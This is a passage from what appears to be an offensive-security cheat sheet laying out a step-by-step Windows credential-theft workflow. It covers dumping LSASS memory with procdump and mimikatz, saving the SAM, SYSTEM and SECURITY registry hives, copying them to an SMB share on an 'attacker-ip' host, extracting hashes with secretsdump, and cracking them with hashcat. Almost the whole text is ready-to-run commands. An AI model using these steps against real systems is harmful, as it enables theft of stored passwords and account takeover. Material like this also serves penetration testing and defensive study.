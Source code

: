 ### Memory Dumping (Legacy)
```bash
# Dump LSASS memory
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

# Extract from memory dump
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

## Practical Workflow

### 1. Gain Administrative Access
```bash
# Verify admin access
whoami /groups | findstr "S-1-5-32-544"

# Or check with NetExec
netexec smb target -u user -p password --local-auth
```

### 2. Extract Registry Hives
```cmd
# Save hives to temp location
reg.exe save hklm\sam C:\temp\sam.save
reg.exe save hklm\system C:\temp\system.save
reg.exe save hklm\security C:\temp\security.save
```

### 3. Transfer Files
```bash
# Start SMB server on attacker
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share /tmp/

# Transfer from target
move C:\temp\*.save \\attacker-ip\share\
```

### 4. Extract Hashes
```bash
# Use secretsdump
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL > hashes.txt
```

### 5. Crack Hashes
```bash
# Extract NT hashes
grep ":::" hashes.txt | cut -d: -f4 > nthashes.txt

# Crack with hashcat
hashcat -m 1000 nthashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
